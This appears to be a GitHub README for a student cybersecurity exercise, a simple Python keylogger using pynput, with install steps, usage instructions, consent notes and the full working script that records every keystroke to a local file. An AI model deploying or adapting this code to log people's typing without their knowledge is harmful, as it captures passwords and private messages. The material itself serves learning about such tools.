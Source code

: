 # Simple Keylogger

This Python script implements a basic keylogger that records and logs keystrokes. It captures keys pressed by the user and saves them to a specified file (`keylog.txt` by default). It is essential to handle ethical considerations and permissions responsibly when working with keyloggers.

## Features

- **Keystroke Logging**: Records each keystroke (including special keys) and logs them to a text file.
- **Graceful Exit**: Stops logging when the `Esc` key is pressed.
- **Error Handling**: Handles different types of key events gracefully using `pynput.keyboard`.

## Requirements

- Python 3.x
- Libraries: pynput

## Installation

1. Install the required libraries using pip:

   ```bash
   pip install pynput
   ```

2. Clone the repository or download the `keylogger.py` script.

## Usage

1. Run the `keylogger.py` script:

   ```bash
   python keylogger.py
   ```

2. Start typing. The keylogger will start recording keystrokes and save them to `keylog.txt`.

3. To stop the keylogger, press the `Esc` key.

## Notes

- **Ethical Considerations**: Ensure that you have explicit permission to use a keylogger, as logging keystrokes without consent may violate privacy laws.
- **File Security**: Store and handle the log file (`keylog.txt`) securely, as it contains sensitive information.
- **Customization**: Modify the script as needed to suit specific requirements, such as changing the log file path or adding additional logging functionality.

## Example

```python
from pynput import keyboard

log_file_path = "keylog.txt"
keys = []

def on_press(key):
    try:
        keys.append(key.char)
        with open(log_file_path, "a") as log_file:
            log_file.write(key.char)
    except AttributeError:
        keys.append(str(key))
        with open(log_file_path, "a") as log_file:
            log_file.write(f" [{str(key)}] ")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Acknowledgements

This project was created with the support of [Prodigy InfoTech].

## License

This project is licensed under the MIT License - see the LICENSE file for details.

# PRODIGY_CS_04
